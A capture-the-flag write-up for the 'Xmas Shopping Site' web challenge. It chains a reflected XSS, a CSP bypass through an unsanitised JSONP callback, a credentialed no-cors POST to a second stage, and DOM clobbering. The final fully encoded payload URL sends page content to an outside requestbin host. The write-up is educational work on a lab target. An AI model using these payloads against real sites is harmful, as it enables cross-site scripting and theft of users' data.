

# Xmas Shopping Site

## Solution

### XSS + CSP Bypass on Stage 1 (http://xss.allesctf.net)

We quickly find the XSS via the search bar at Stage 1 (`http://xss.allesctf.net/?search=%3C%2Fb%3E%3Ch1%3Etest%3C%2Fh1%3E`). Looking at the CSP, it is clear that we have to bypass
it finding some JSONP callback or similar where we can put our javascript:
```
Content-Security-Policy: default-src 'self' http://*.xss.allesctf.net; object-src 'none'; base-uri 'none';
```

Going through the request made when loading the page, this request is looking particularly interesting:

Request:
```http
GET /items.php?cb=parseItems HTTP/1.1
Host: xss.allesctf.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://xss.allesctf.net/
Cookie: __cfduid=d049cf17cd52255c949dc0649b2cf8e2b1589517494; PHPSESSID=vps4s6kr2a3ebnvu7tmhcvfq73
Cache-Control: max-age=0
```

Response:
```http
HTTP/1.1 200 OK
Server: nginx/1.14.1
Date: Wed, 27 May 2020 09:03:51 GMT
Content-Type: application/javascript
Content-Length: 244
Connection: close
Vary: Accept-Encoding

parseItems([{"title": "Weihnachtsbaum", "url": "3.png", "text": "Plastik und voll schön."},{"title": "Christbaumkugel", "url": "1.png", "text": "Rund und bunt."},{"title": "Schlitten", "url": "2.png", "text": "Es ist glatt, er ist schnell!"}])
```

The `cb` parameter is reflected in the response and not properly sanitized, therefore we can use this to bypass the CSP.

Example payload:
```
</b><script src="http://xss.allesctf.net/items.php?cb=alert(1)//"></script>
```

### XSS on Stage 2 (http://stage2.xss.allesctf.net)

Stage 2 is where the flag is located. This means, we have to inject javascript here too.
Inspecting the html code of the page, we find this comment:
```
<!-- What is CORS? Baby don't hurt me, don't hurt me - no more! -->
```

On Stage 2 is a feature that lets us change the background by sending the following POST request:
```http
POST /?token=5ece45605cf6a HTTP/1.1
Host: stage2.xss.allesctf.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://stage2.xss.allesctf.net/?token=5ece45605cf6a
Content-type: application/x-www-form-urlencoded
Origin: http://stage2.xss.allesctf.net
Content-Length: 8
DNT: 1
Connection: close
Cookie: __cfduid=d049cf17cd52255c949dc0649b2cf8e2b1589517494; PHPSESSID=5j3o43v0t4u9pvkort75uigdm3

bg=green
```

If we change the value of the `bg` parameter to something like `123"`:
```
...
<!-- set bg color -->
<input type="hidden" id="bg" value="123"">
...
```

Looks like we can inject code here, but once again CSP is in our way:
```
Content-Security-Policy: script-src 'nonce-4LL/EQMphEFHsCGhTigoBN8LInw=' 'unsafe-inline' 'strict-dynamic'; base-uri 'none'; object-src 'none';
```
The other question is: How can we change the background from Stage 1?

### Going from Stage 1 to Stage 2

The CSP of Stage 1 allows us to make requests to http://stage2.xss.allesctf.net:
```
Content-Security-Policy: ... http://*.xss.allesctf.net ...
```
The hint earlier tells us to use CORS from Stage 1 to inject code on Stage 2, but if we try to make a CORS request:
```
> fetch("http://stage2.xss.allesctf.net/?token=5ece4d45d009f")
  Promise { <state>: "pending" }
[!] Cross-Origin Request Blocked: The Same Origin Policy disallows reading the remote resource at http://stage2.xss.allesctf.net/?token=5ece4d45d009f. (Reason: CORS header ‘Access-Control-Allow-Origin’ missing).
[!] TypeError: NetworkError when attempting to fetch resource.
```
The browser first sends a prefilght `OPTIONS` request that checks if the `Access-Control-Allow-Origin` header is set and checks if the origin is allowed.
As it turns out, we can use an option called `no-cors` that allows us to make request to servers that don't have the header set, but it doesn't allow us to look at the response, which also isn't necessary in our case.

So, this example should work:
```javascript
fetch("http://stage2.xss.allesctf.net/?token=<token>", {headers: {"Content-Type": "application/x-www-form-urlencoded"}, method: "POST", body: "bg=<payload>", credentials: "include", mode: "no-cors"})
```

### CSP Bypass on Stage 2

While figuring out how to bypass the CSP on Stage 2, I came across [Script Gadgets](https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf) and this
part of background.js looks like it could be useful:
```javascript
$(document).ready(() => {
    $("body").append(backgrounds[$("#bg").val()]);
});
```

Afterwards, I came across this article: https://blog.knownsec.com/2018/04/tctf0ctf2018-xss-writeup/.
It includes a snippet looking very similar to this one and with the help of Google Translate I figured what we had to do here was [DOM Clobbering](https://portswigger.net/research/dom-clobbering-strikes-back)

The snipped is supposed pick one of the values from here:
```javascript
<script nonce="Tori/wA+7ciwwT0XWZ7i3TkwrwE=">
    var backgrounds = {
        'red': [
            '</img>'
        ],
        'green': [
            '</img>'
        ],
        'tree': [
            '</img>'
        ]
    }
 </script>
```

In order for our DOM Clobbering attack to work, we need to somehow "remove" this. Luckily, the snipped comes after our injection point so we "remove" it by putting a `<a href="` at the end of our payload.

This example payload should clobber the DOM and execute the payload:
```
id"><form name="backgrounds" id="<payload>"></form><a href="
```

### Putting everything together

Our inital injection point is on Stage 1 and at first, we want to extract the token for Stage 2.
```javascript
var token = /[a-f0-9]{13}/.exec(document.body.innerHTML);
```
Next comes our payload we want to execute on Stage 2:
```javascript
var getFlag = '<script> window.location.href = "<SomeRequestbinURL>" + document.body.innerHTML.match(/CSCG{.*}/g)[1] </script>';
```
The DOM Clobbering with `getFlag`:
```javascript
var clobberPayload = 'id"><form name="backgrounds" id="' + getFlag + '"></form><a href="';
```
And last but not least comes the CORS request and the redirect to Stage 2:
```javascript
fetch("http://stage2.xss.allesctf.net/?token=" + token, {headers: {"Content-type": "application/x-www-form-urlencoded"}, method: "POST", body: "bg=" + clobberPayload, credentials: "include", mode: "no-cors"});
window.location.href = "http://stage2.xss.allesctf.net/?token=" + token;
```

Another problem was that `http://xss.allesctf.net/items.php?cb=<payload>` doesn't accept `>` and `<`. To bypass this, I used `decodeURI`.
If we shorten everything a bit and encode everything correctly, we get the following url we can submit to the admin:
```
http://xss.allesctf.net/?search=%3C%2Fb%3E%3Cscript+src%3D%27http%3A%2F%2Fxss.allesctf.net%2Fitems.php%3Fcb%3Dvar%2520a%3D%2F%5Ba-f0-9%5D%7B13%7D%2F.exec%28document.body.innerHTML%29%3B%2F%2F%27%3E%3C%2Fscript%3E%3Cscript+src%3D%27http%3A%2F%2Fxss.allesctf.net%2Fitems.php%3Fcb%3Dvar%2520b%3DdecodeURI%28%22%252522%25253Cscript%25253Ewindow.location.href%3D%252527https%3A%2F%2Fen5ocv9177twt.x.pipedream.net%2F%252527%25252bdocument.body.innerHTML.match%28%2FCSCG%25257B.*%25257D%2Fg%29%5B1%5D%3B%25253C%2Fscript%25253E%252522%22%29%3B%2F%2F%27%3E%3C%2Fscript%3E%3Cscript+src%3D%27http%3A%2F%2Fxss.allesctf.net%2Fitems.php%3Fcb%3Dvar%2520c%3DdecodeURI%28%22id%252522%25253E%25253Cform%252520name%3D%252522backgrounds%252522%252520id%3D%22%29%252bb%252bdecodeURI%28%22%252522%25253E%25253C%2Fform%25253E%25253Ca%252520href%3D%252527%22%29%3B%2F%2F%27%3E%3C%2Fscript%3E%3Cscript+src%3D%27http%3A%2F%2Fxss.allesctf.net%2Fitems.php%3Fcb%3Dfetch%28%22http%3A%2F%2Fstage2.xss.allesctf.net%2F%3Ftoken%3D%22%252ba%2C%7Bheaders%3A%7B%22Content-type%22%3A%22application%2Fx-www-form-urlencoded%22%7D%2Cmethod%3A%22POST%22%2Cbody%3A%22bg%3D%22%252bc%2Ccredentials%3A%22include%22%2Cmode%3A%22no-cors%22%7D%29%3B%2F%2F%27%3E%3C%2Fscript%3E%3Cscript+src%3D%27http%3A%2F%2Fxss.allesctf.net%2Fitems.php%3Fcb%3Dwindow.location.href%3D%22http%3A%2F%2Fstage2.xss.allesctf.net%2F%3Ftoken%3D%22%252ba%3B%2F%2F%27%3E%3C%2Fscript%3E
```



Flag: `CSCG{c0ngratZ_y0u_l3arnD_sUm_jS:>}`

### Mitigation

Always sanitize user input.

